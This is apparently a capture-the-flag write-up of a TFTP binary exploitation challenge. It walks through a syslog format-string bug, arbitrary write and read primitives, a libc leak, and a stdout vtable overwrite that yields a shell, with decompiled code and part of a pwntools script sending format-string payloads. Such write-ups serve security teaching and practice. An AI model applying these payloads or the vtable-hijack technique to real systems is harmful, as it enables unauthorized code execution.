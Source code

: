 Beacuse syslog take second parameter as a format string.
Now we have a arbitrarily write.

```clike=
  ...
    sprintf((char *)(v32 + 348), "unknown mode %s", *(_QWORD *)(v32 + 288));
    qmemcpy(&v30, (const void *)(v32 + 344), 0x200uLL);
    sub_400E9F((unsigned __int64)&v31, v32 + 88);
    syslog(3, (const char *)(v32 + 348));
    sub_400EF0(v32);
    return 1LL;
  ...

```
Because of no PIE, we can modify `dest` and `buf` without knowing code base.
We can craft a structure on .bss and `dest` point to it.
We also make `buf` point to near the structure we create.
So we can take input and craft the structure at the same time.
Use opcode 0x4 to leak libc by properly craft the structure.

```clike=
...
else if ( *((_DWORD *)dest + 79) > 3 &&
    ntohs(*((_WORD *)buf + 1)) == *((_WORD *)dest + 156) )
{
    ++*((_WORD *)dest + 156);
    ++*((_DWORD *)dest + 77);
    sub_4011D0(dest, v3);
}

```
sub_4011D0

```clike=
...
if ( ntohs(*(_WORD *)(*(_QWORD *)(dest + 328) + 2LL)) 
    == *(_WORD *)(dest + 312) )
{
    *_errno_location() = 0;
    write(1, *(dest + 328), *(dest + 320) + 4); // arbitrarily read
    ...
}

```
Because the libc version is 2.23, we can modify stdout vtable to anywhere.
We create a vtable where at offest 0x38 is system address.
Modify stdout vtable to vtable we create.
Modify stdout flag to 0x6873("sh").
Wait 60 second to trigger alarm handler to call puts.
It will call system("sh") to get shell.




```python=
from pwn import *

context.arch = "amd64"

r = process(["./tftp"])
#r = remote("52.68.37.204", 48763)
dest = 0x604a00
def write(addr,val):
        r.send("\x00\x02\x30\x00%{}c%157$n\x00".format(addr-0xd))
        r.recvrepeat(.1)
        r.send("\x00\x02\x30\x00%{}c%158$n\x00".format(val-0xd))
        r.recvrepeat(.1)

```